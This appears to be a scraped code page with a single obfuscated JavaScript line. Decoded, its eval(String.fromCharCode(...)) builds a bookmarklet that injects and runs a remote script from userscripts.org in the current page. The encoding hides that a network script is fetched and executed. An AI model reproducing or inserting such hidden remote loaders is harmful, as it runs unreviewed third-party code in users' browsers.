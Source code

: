 Code
====

eval(String.fromCharCode(106, 97, 118, 97, 115, 99, 114, 105, 112, 116, 58, 40, 102, 117, 110, 99, 116, 105, 111, 110, 40, 41, 123, 100, 111, 99, 117, 109, 101, 110, 116, 46, 98, 111, 100, 121, 46, 97, 112, 112, 101, 110, 100, 67, 104, 105, 108, 100, 40, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 114, 101, 97, 116, 101, 69, 108, 101, 109, 101, 110, 116, 40, 39, 115, 99, 114, 105, 112, 116, 39, 41, 41, 46, 115, 114, 99, 61, 39, 104, 116, 116, 112, 115, 58, 47, 47, 117, 115, 101, 114, 115, 99, 114, 105, 112, 116, 115, 46, 111, 114, 103, 47, 115, 99, 114, 105, 112, 116, 115, 47, 115, 111, 117, 114, 99, 101, 47, 52, 48, 57, 56, 56, 53, 46, 117, 115, 101, 114, 46, 106, 115, 39, 59, 125, 41, 40, 41, 59))
